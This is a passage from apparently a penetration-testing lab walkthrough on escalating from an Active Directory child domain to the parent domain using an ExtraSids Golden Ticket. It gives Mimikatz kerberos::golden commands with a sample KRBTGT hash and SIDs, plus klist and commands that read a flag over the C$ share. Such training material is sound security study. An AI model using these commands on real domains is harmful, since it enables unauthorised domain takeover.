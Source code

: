 
##### Step 6: The attack

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist to create our Golden Ticket!): We'll choose a fake user: `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

Before the attack, we can confirm no access to the file system of the DC in the parent domain:

```powershell
# List C: in the parent domain:
ls \\$parenhostname.$domain\c$
# Example: 
# ls \\academy-ea-dc01.inlanefreight.local\c$
```

Using Mimikatz and the data listed above, we can create a Golden Ticket to access all resources within the parent domain.

```powershell
kerberos::golden /user:$madeupUserName /domain:$targetedFQDN /sid:$sidTargetedDomain /krbtgt:$NTLMhashOfKRBTGTaccountDomain  /sids:$SIDofEnterpriseAdminGroup /ptt

# Example:
# kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

Now, let's list the kerberos tickets in memory:

```powershell
klist
```

Now we can perform actions in the parent domain, such as reading a flag:

```powershell
# List C: in the parent domain:
ls \\$parenhostname.$domain\c$
# Example: 
# ls \\academy-ea-dc01.inlanefreight.local\c$

# Read the flag
cat \\$parenhostname.$domain\c$path\to\file.txt
# Example: 
# cat \\academy-ea-dc01.inlanefreight.local\c$\ExtraSids\flag.txt
```

### Cross-Forest Kerberoasting

 Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.
